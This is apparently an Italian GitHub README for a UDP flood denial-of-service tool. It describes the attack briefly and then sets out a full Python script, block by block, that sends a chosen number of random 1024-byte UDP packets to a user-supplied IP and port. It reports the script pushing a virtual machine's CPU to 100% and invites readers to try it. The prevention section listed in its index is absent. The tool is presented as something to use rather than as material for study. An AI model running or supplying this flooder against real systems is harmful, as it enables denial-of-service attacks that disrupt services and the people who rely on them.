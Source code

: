 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice
1. [Codice](#Codice)
2. [Prestazioni](#Prestazioni)
3. [Prevenzioni](#Prevenzioni)

## Codice
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni**
<p>Questo screenshot mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale </p>
[Immagine](https://www.amazon.com/)



Provare per credere😅




